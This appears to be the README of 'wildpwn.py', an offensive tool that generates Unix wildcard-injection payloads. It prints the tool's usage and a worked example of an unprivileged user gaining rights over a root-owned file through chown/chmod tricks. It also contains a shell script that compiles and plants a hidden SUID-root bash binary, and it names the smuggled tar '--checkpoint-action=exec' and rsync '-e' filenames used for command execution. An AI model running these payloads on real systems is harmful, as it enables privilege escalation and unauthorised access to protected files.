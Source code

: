 # First things first!
Read: https://www.exploit-db.com/papers/33930/

<br />

# Basic usage

It goes something like this:

```
usage: wildpwn.py [-h] [--file FILE] payload folder

Tool to generate unix wildcard attacks

positional arguments:
  payload      Payload to use: (combined | tar | rsync)
  folder       Where to write the payloads

optional arguments:
  -h, --help   show this help message and exit
  --file FILE  Path to file for taking ownership / change permissions. Use it
               with combined attack only.
```

<br />

## Payload types

  - **combined:** Uses the chown & chmod file reference tricks, described in section 4.1 and 4.2, combined in a single payload.
  - **tar:** Uses the Tar arbitrary command execution trick, described in section 4.3.
  - **rsync:** Uses the Rsync arbitrary command execution trick, described in section 4.4.
<br>

## Usage example
``` bash
$ ls -lh /tmp/very_secret_file
-rw-r--r-- 1 root root 2048 jun 28 21:37 /tmp/very_secret_file

$ ls -lh ./pwn_me/
drwxrwxrwx 2 root root 4,0K jun 28 21:38 .
[...]
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_1
-rw-rw-r-- 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ python wildpwn.py --file /tmp/very_secret_file combined ./pwn_me/
[!] Selected payload: combined
[+] Done! Now wait for something like: chown uid:gid *  (or)  chmod [perms] * on ./pwn_me/. Good luck!

[...time passes / some cron gets executed...]

# chmod 000 * (for example)

[...back with the unprivileged user...]

$ ls -lha ./pwn_me/
[...]
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_1
-rwxrwxrwx 1 root root    1024 jun 28 21:38 secret_file_2
[...]

$ ls -lha /tmp/very_secret_file
-rwxrwxrwx 1 root root 2048 jun 28 21:38 /tmp/very_secret_file
```

<br />

## Bash scripts used on tar/rsync attacks

```sh
#!/bin/sh

# get current user uid / gid
CURR_UID="$(id -u)"
CURR_GID="$(id -g)"

# save file
cat > .cachefile.c << EOF
#include <stdio.h>
int main()
{
setuid($CURR_UID);
setgid($CURR_GID);
execl("/bin/bash", "-bash", NULL);
return 0;
}
EOF

# make folder where the payload will be saved
mkdir .cache
chmod 755 .cache

# compile & give SUID
gcc -w .cachefile.c -o .cache/.cachefile
chmod 4755 .cache/.cachefile
``` 
#### Clean up (tar)
``` sh
# clean up
rm -rf ./'--checkpoint=1'
rm -rf ./'--checkpoint-action=exec=sh .webscript'
rm -rf .webscript
rm -rf .cachefile.c
``` 

#### Clean up (rsync)
``` sh
# clean up
rm -rf ./'-e sh .syncscript'
rm -rf .syncscript
rm -rf .cachefile.c
``` 

> Feel free to change them!
